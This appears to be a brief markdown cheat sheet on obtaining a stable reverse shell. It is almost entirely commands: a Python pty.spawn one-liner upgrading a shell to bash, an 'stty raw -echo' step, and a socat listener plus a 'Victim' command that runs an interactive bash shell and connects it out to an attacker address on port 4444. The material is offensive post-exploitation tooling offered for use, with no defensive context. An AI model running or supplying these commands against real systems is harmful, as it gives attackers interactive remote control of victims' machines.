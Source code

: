 # Stable revers Shell 

### Using Python for a psuedo terminal
```
python -c 'import pty; pty.spawn("/bin/bash")'

stty raw -echo
```

## Using socat
```
#Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```
